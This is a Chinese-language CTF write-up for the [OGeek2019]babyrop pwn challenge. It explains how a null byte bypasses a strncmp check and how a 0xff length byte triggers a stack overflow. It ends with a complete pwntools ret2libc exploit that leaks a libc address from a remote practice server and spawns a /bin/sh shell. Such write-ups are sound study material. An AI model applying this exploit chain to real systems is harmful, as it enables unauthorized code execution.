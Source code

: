 

# [OGeek2019]babyrop

## 分析程序

### main函数分析

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-11_20-59-18.png)





### sub_804871f函数分析

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-11_21-02-08.png)



### sub_80487D0函数分析

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-10-11_21-04-01.png)



### 流程介绍

**由上图可知，整个流程就是，首先输入一个数据，判断是否与程序生成的随机数相等；若相等，则输出`correct\n`字符串，然后返回输入数据的第八个字节，否则程序结束。然后作为参数传递个下一个函数，若该数据为`\x7f`,则输入`0xC8`长度的数据，较为安全，若不等于该值，则输入该数值长度的数据！**



## 解题思路

该题主要有两个难点：

- 要使得第一次输入与随机数相等
- 根据题目`rop`提示我们需要找到溢出点

针对问题一：

由于随机数每次是随机生成的，同时题中不存在泄露随机数的条件以及改写随机数的格式化字符串；因此考虑到`strlen（）`函数对长度的判断是以`\x00`作为字符串的结尾，因此 我们自需要使`payload`的第一个字节的值为`\x00`即可使得字符串得到的长度为0，成果绕过`strncmp`函数的比较

针对问题二：

传参不为`\x7f`即可作为输入的长度值；因此若`a1`的值设为`0xff`即可存在 栈溢出漏洞，因此往前推 可知 `buf[7]`需要为`0xff`

从而得到 第一次输入的`payload =b"\x00" + 6*b"A" + b"\xff" ` 保证一头一尾的数据来满足栈溢出的条件；后面的`payload`只需按照一般的`ret2libc`实现即可

## EXP

```python
#! /usr/bin/env python3

from pwn import *
from LibcSearcher import *

context(os = 'linux',arch = 'i386',log_level='debug')
#context.terminal = ['tmux', 'splitw', '-h']
#io = process("/home/always/PWN/OGeek2019_babyrop")
io = remote("node4.buuoj.cn",29248)
e = ELF("/home/always/PWN/OGeek2019_babyrop")

offest = 235

read_got_addr = e.got["read"]

write_plt_addr = e.plt["write"]
#vul_func_addr = 0x080487D0
main_addr = 0x08048825
payload = b"\x00" + 6*b"A" + b"\xff"
#pause()

io.sendline(payload)
io.recvuntil(b"Correct\n")
payload1 = offest*b'A' + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(read_got_addr) + p32(4)
io.sendline(payload1)
read_libc_addr  = u32(io.recv(4))

log.success("read_libc_addr==========>{}".format(hex(read_libc_addr)))

#libc = LibcSearcher("read",read_libc_addr)
#libc_base = read_libc_addr - libc.dump("read")
#sys_addr  = libc_base + libc.dump("system")
#binsh_addr = libc_base + libc.dump("str_bin_sh")
libc = ELF("/home/always/PWN/libc-2.23.so")
libc_base = read_libc_addr - libc.symbols["read"]
sys_addr  = libc_base + libc.symbols["system"]
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
log.success("libc_base==========>{}".format(hex(libc_base)))
paylaod2 = offest*b'A' + p32(sys_addr) + p32(main_addr) + p32(binsh_addr)
io.sendline(payload)
io.recvuntil(b"Correct\n")
io.sendline(paylaod2)
io.interactive()
```

